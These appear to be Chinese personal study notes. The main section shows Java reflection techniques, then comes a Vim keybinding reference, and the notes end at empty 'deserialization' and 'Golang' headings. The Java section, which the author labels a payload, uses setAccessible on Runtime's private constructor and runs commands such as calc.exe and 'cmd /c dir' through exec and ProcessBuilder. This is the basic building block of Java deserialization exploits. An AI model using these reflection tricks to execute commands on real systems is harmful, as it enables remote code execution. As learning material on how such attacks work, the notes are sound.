>你创建了一个字符串数组`new String[]{"calc.exe"}`，然后将其转换为`Object[]`。这是正确的，因为`newInstance()`方法期望一个`Object[]`，这个数组包含一个`String[]`对象。因此，这段代码可以正确运行。
>
>然而，在你的第三段代码中：
>
>```java
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[]{"calc.exe"}));
>```
>
>你创建了一个字符串数组`new String[]{"calc.exe"}`，然后直接传递给`newInstance()`方法。这是错误的，因为`newInstance()`方法期望一个`Object[]`，这个数组包含一个`String[]`对象，而你提供的是一个`String[]`对象。这就像尝试将一个`String[]`类型的对象传递给一个期望`Object[]`类型的参数，显然是不匹配的，因此你得到了`IllegalArgumentException: argument type mismatch`的错误。
>
>为了解决这个问题，你需要将你的字符串数组包装在一个`Object[]`里，就像你在第一段代码中那样。这样，你就可以正确地调用`newInstance()`方法，而不会得到任何错误。
>
>希望这个解释能够帮助你理解这个问题。如果你还有任何疑问，欢迎继续提问。
>
>((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc.exe"}})).start();有佬知道为什么newinstance接受的是二维数组么
>这个问题解释：
>因为newInstance接受一个可变长参数也就是接受一个数组，你传进去的二维数组字符串数组的数组被视为一个单独的参数，举例就是传进去两个int参数1,2的话到nerInstance函数里面也会被编译成被一个Object数组包围的两个int类型参数，new Object[]{1, 2}，穿进去的二维数组外面这层被当做Object数组了，里面包围着字符串数组参数


>###### `getDeclaredConstructor()` 方法的语法如下：
>
>`public Constructor<T> getDeclaredConstructor(Class<?>... parameterTypes) throws NoSuchMethodException`
>
>- `parameterTypes` 是一个可变参数列表，用于指定构造函数的参数类型。如果构造函数有参数，需要指定参数类型，如果没有参数，可以不传入该参数。
>- `T` 是构造函数所在类的类型。
>
>```Java
>Class<?> stuClass = Class.forName("student");
>//带有参数的构造函数
>Constructor<?> stuConstr = stuClass.getDeclaredConstructor(String.class, int.class);
>Object stuIns = stuConstr.newInstance("小王", 1);
>//无参构造函数
>Constructor<?> noStuConstr = stuClass.getDeclaredConstructor();
>Object noStuIns = noStuConstr.newInstance();
>```
>



`getDeclaredConstructor()`可以获得构造方法，也可以获得我们常用的`private`方法，其中`Runtime`的构造方法是`private`，我们无法直接调用，我们需要使用反射去修改方法的访问权限（使用`setAccessible`，修改为 true），再通过获取的构造器进行实例化对象

```Java
Class<?> runtimeClass = Class.forName("java.lang.Runtime");
Constructor constructor = runtimeClass.getDeclaredConstructor();
System.out.println(constructor);
constructor.setAccessible(true);
// Object类是所有类的父类，有兴趣的同学可以在双亲委派机制中去搞明白
Object runtimeInstance = constructor.newInstance();
//这里的话就等价于 Runtime rt = new Runtime();
```

##### 获取成员变量Field

获得该类自身声明的所有变量，不包括其父类的变量
`public Field getDeclaredFields() `

获得该类自所有的public成员变量，包括其父类变量
`public Field getFields()`

```Java
 // 获取类中的成员变量
 Field[] steFies = stuClass.getDeclaredFields();
 // 获取类中制定的成员变量
 Field stuFie = stuClass.getDeclaredField("id");
 // 设置成员变量为可访问状态
 stuFie.setAccessible(true);
 // 获取成员变量的值
 Object stuId = stuFie.get(stuIns);
 System.out.println(stuId);
 // 修改成员变量的值
 stuFie.set(stuIns, 2);
 Object stuIdNew = stuFie.get(stuIns);
 System.out.println(stuIdNew);
```


上述的完整Payload:

```Java
import java.io.IOException;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class Main {
    public static void main(String[] args) throws ClassNotFoundException {
        System.out.println("1".getClass());
        System.out.println(people.class);
        System.out.println(Class.forName("java.lang.Runtime"));
        System.out.println("\n\n---------------------------------------------------------------------------------\n\n");

        Class<?> studentClass = Class.forName("student");
        Method[] studentMethodAll = studentClass.getDeclaredMethods();
        Method[] studentMethod = studentClass.getMethods();

        System.out.println(studentClass + " -> getDeclaredMethods");
        for (Method m : studentMethodAll) {
            System.out.println(m);
        }
        System.out.println("\n" + studentClass + " -> getMethods");
        for (Method m : studentMethod) {
            System.out.println(m);
        }
        System.out.println("\n\n---------------------------------------------------------------------------------\n\n");

        Constructor[] studentConstructorAll = studentClass.getDeclaredConstructors();
        Constructor[] studentConstructor = studentClass.getConstructors();
        System.out.println(studentClass + " -> getDeclaredConstructors");
        for (Constructor m : studentConstructorAll) {
            System.out.println(m);
        }
        System.out.println("\n" + studentClass + " -> getConstructors");
        for (Constructor m : studentConstructor) {
            System.out.println(m);
        }
        System.out.println("\n\n---------------------------------------------------------------------------------\n\n");

        Field[] studentFieldAll = studentClass.getDeclaredFields();
        Field[] studentField = studentClass.getFields();
        System.out.println(studentClass + " -> getDeclaredFields");
        for (Field m : studentFieldAll) {
            System.out.println(m);
        }
        System.out.println("\n" + studentClass + " -> getFields");
        for (Field m : studentField) {
            System.out.println(m);
        }
        System.out.println("\n\n---------------------------------------------------------------------------------\n\n");

        try{
            Class<?> runtimeClass = Class.forName("java.lang.Runtime");
            Constructor constructor = runtimeClass.getDeclaredConstructor();
            System.out.println(constructor);
            constructor.setAccessible(true);
            // Object类是所有类的父类，有兴趣的同学可以在双亲委派机制中去搞明白
            Object runtimeInstance = constructor.newInstance();
            //这里的话就等价于 Runtime rt = new Runtime();
            // 使用 Runtime 实例调用方法
            Method execMethod = runtimeClass.getDeclaredMethod("exec", String.class);
            Process result = (Process)execMethod.invoke(runtimeInstance, "calc.exe");

            String[] payload = {"cmd", "/c", "dir"};
            Method runtimeMethod = runtimeClass.getMethod("exec", String[].class);
            Process process = (Process) runtimeMethod.invoke(runtimeInstance, (Object) payload);

            InputStream inputStream = process.getInputStream();
            InputStreamReader inputStreamReader =  new InputStreamReader(inputStream, "GBK");
            BufferedReader inputBufferedReader = new BufferedReader(inputStreamReader);
            String line = null;
            while ((line = inputBufferedReader.readLine()) != null) {
                System.out.println(line);
            }
            inputBufferedReader.close();
            inputStreamReader.close();
            inputStream.close();

            // 获取成员变量
            Class<?> stuClass = Class.forName("student");
            // 带有参数的构造函数
            Constructor<?> stuConstr = stuClass.getDeclaredConstructor(String.class, int.class);
            Object stuIns = stuConstr.newInstance("小王", 1);
            // 无参构造函数
            Constructor<?> noStuConstr = stuClass.getDeclaredConstructor();
            Object noStuIns = noStuConstr.newInstance();

            // 获取类中的成员变量
            Field[] steFies = stuClass.getDeclaredFields();
            // 获取类中制定的成员变量
            Field stuFie = stuClass.getDeclaredField("id");
            // 设置成员变量为可访问状态
            stuFie.setAccessible(true);
            // 获取成员变量的值
            Object stuId = stuFie.get(stuIns);
            System.out.println(stuId);
            // 修改成员变量的值
            stuFie.set(stuIns, 2);
            Object stuIdNew = stuFie.get(stuIns);
            System.out.println(stuIdNew);

        }catch (NoSuchMethodException | InvocationTargetException | InstantiationException | IllegalAccessException |
                IOException | NoSuchFieldException e) {
            throw new RuntimeException(e);
        }

    }
    public void execute(String className, String methodName) throws Exception {
        Class<?> clazz = Class.forName(className);
        clazz.getMethod(methodName).invoke(clazz.newInstance());
    }
}

class people {
    public String name = null;

    public people(){}

    public people(String name){
        this.name = name;
    }

    public void shout(){
        System.out.println(this.name+": 啊啊啊啊啊啊啊啊啊啊啊！！");
    }
}

class student extends people{

    private int id;
    public int num;

    public student(){
        System.out.println("无参构造");
    }

    private student(String name){
        System.out.println("私有构造：" + name);
    }
    public student(String name, int id) {
        super(name);
        this.id = id;
        System.out.println("正常构造");
    }

    private void copyHomework(){
        System.out.println("抄抄抄！！");
    }

    public void study(){
        System.out.println("学学学！！");
    }
}
```

### 反序列化


## VIM

### 如何从正常模式进入插入模式呢？

请记住下面几个常用启动录入文本的键盘字符 `i,I,a,A,o,O,s,S` 。

`i`是在光标所在的字符之前插入需要录入的文本。

`I` 是在光标所在行的行首插入需要录入的文本。

`a` 是在光标所在的字符之后插入需要录入的文本。

`A` 是在光标所在行的行尾插入需要录入的文本。

`o` 是光标所在行的下一行行首插入需要录入的文本。

`O` 是光标所在行的上一行行首插入需要录入的文本。

`s` 删除光标所在处的字符然后插入需要录入的文本。

`S` 删除光标所在行，在当前行的行首开始插入需要录入的文本。

还有一个可能经常用到的就是 `cw` ，删除从光标处开始到该单词结束的所有字符，然后插入需要录入的文本（这个命令是两个字符的合体 cw ）。

### VIM 的命令模式

**文本的行号设置最好不要设置在配置文件中（因为复制文件的时候行号的出现会很麻烦），在命令行实现就好**。

`:set nu`该命令会显示行号。

`:set nonu`该命令会取消行号。

`:n`定位到 n 行。

**VIM 进行关键字的查找。**

`/{目标字符串}`

如：/zempty 会在文本中匹配 zempty 的地方高亮。

查找文本中匹配的目标字符串，查到以后，输入键盘上的 n 会去寻找下一个匹配，N 会去寻找上一个匹配。

**VIM 处理大小写的区分**

`:set ic`编辑器将不会区分大小写，如果你进行该设置之后，进行关键字查询如 /zempty 如果文本中有 Zempty ,zEmpty,....,只要是字符相同不会区分大小写都会进行匹配。

`:set noic`该命令用来区分大小写的查询。

### VIM 的正常模式

**快速移动光标**

几个重要的快捷键

请记住这几个快捷键 `h,j,k,l` 这几个按键主要是用来快速移动光标的，`h` 是向左移动光标，`l` 是向右移动光标，`j` 是向下移动光标，`k` 是向上移动光标，`h , j , k ,l` 在主键盘区完全可以取代键盘上的 `↑ ,↓ ,← , →` 的功能。

**在当前行上移动光标**

`0` 移动到行头

`^` 移动到本行的第一个不是 blank 字符

`$` 移动到行尾

`g_` 移动到本行最后一个不是 blank 字符的位置

`w` 光标移动到下一个单词的开头

`e` 光标移动到下一个单词的结尾

`fa` 移动到本行下一个为 a 的字符处，fb 移动到下一个为 b 的字符处

`nfa` 移动到本行光标处开始的第 n 个 字符为 a 的地方（n 是 1，2，3，4 ... 数字）

`Fa` 同 `fa` 一样，光标移动方向同 `fa` 相反

`nFa` 同 `nfa` 类似，光标移动方向同 `nfa`相反

`ta` 移动光标至 a 字符的前一个字符

`nta` 移动到第二个 a 字符的前一个字符处

`Ta` 同 `ta` 移动光标方向相反

`nTa` 同 `nta` 移动光标方向相反

`;` 和`,` 当使用 f, F, t ,T, 关键字指定字符跳转的时候，使用 `；`可以快速跳转到下一个指定的字符，`,` 是跳到前一个指定的字符

**跨行移动光标**

`nG` 光标定位到第 n 行的行首

`gg` 光标定位到第一行的行首

`G` 光标定位到最后一行的行首

`H` 光标定位到当前屏幕的第一行行首

`M` 光标移动到当前屏幕的中间

`L` 光标移动到当前屏幕的尾部

`zt` 把当前行移动到当前屏幕的最上方，也就是第一行

`zz` 把当前行移动到当前屏幕的中间

`zb` 把当前行移动到当前屏幕的尾部

`%` 匹配括号移动，包括 ( , { , \[ 需要把光标先移动到括号上

`*` 和 `#` 匹配光标当前所在的单词，移动光标到下一个（或者上一个）匹配的单词（ `*` 是下一个，`#` 是上一个）

## Golang
